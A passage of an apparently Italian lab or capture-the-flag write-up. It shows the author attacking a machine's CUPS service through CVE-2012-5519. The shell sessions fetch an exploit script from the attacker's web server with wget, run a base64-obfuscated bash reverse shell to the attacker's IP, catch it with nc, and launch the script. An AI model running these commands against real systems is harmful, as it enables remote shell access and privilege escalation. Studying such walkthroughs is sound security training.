 ```shell
drwxr-xr-x 1 dua2z3rr dua2z3rr   138 17 set 21.32 .git
-rw-r--r-- 1 dua2z3rr dua2z3rr  8368 17 set 21.32 README.md
┌─[dua2z3rr@parrot]─[~/CVE-2012-5519]
└──╼ $python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.107 - - [17/Sep/2025 21:33:38] "GET /cups-root-file-read.sh HTTP/1.1" 200 -
```
```shell
> exec wget http://10.10.16.9:8000/cups-root-file-read.sh
> exec ls
cups-root-file-read.sh
telnet.py
user.txt
> exec echo 'L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE2LjkvOTAwMSAwPiYx' | base64 -d | bash

```

Ora abbiamo una reverse shell dove eseguire lo script.

```shell
┌─[✗]─[dua2z3rr@parrot]─[~/CVE-2012-5519]
└──╼ $nc -lnvp 9001
Listening on 0.0.0.0 9001
Connection received on 10.10.11.107 51586
bash: cannot set terminal process group (1018): Inappropriate ioctl for device
bash: no job control in this shell
lp@antique:~$ ls
ls
cups-root-file-read.sh
telnet.py
user.txt
lp@antique:~$ ls -al
ls -al
total 32
drwxr-xr-x 2 lp   lp    4096 Sep 17 19:33 .
drwxr-xr-x 6 root root  4096 May 14  2021 ..
lrwxrwxrwx 1 lp   lp       9 May 14  2021 .bash_history -> /dev/null
-rw-rw-r-- 1 lp   lp   13027 Sep 17 19:32 cups-root-file-read.sh
-rwxr-xr-x 1 lp   lp    1959 Sep 27  2021 telnet.py
-rw------- 2 lp   lp      33 Sep 17 17:31 user.txt
lp@antique:~$ chmod +x cups-root-file-read.sh
chmod +x cups-root-file-read.sh
lp@antique:~$ ./cups-root-file-read.sh
./cups-root-file-read.sh
                                            _
  ___ _   _ _ __  ___       _ __ ___   ___ | |_
 / __| | | | '_ \/ __|_____| '__/ _ \ / _ \| __|____
| (__| |_| | |_) \__ \_____| | | (_) | (_) | ||_____|
 \___|\__,_| .__/|___/     |_|  \___/ \___/ \__|
 / _(_) | _|_|      _ __ ___  __ _  __| |  ___| |__
| |_| | |/ _ \_____| '__/ _ \/ _` |/ _` | / __| '_ \ 
|  _| | |  __/_____| | |  __/ (_| | (_| |_\__ \ | | |
|_| |_|_|\___|     |_|  \___|\__,_|\__,_(_)___/_| |_|
a bash implementation of CVE-2012-5519 for linux.

[i] performing checks...
[i] checking for cupsctl command...
[+] cupsctl binary found in path.
[i] checking cups version...
[+] using cups 1.6.1. version may be vulnerable.
[i] checking user lp in lpadmin group...
[+] user part of lpadmin group.
[i] checking for curl command...
[+] curl binary found in path.
```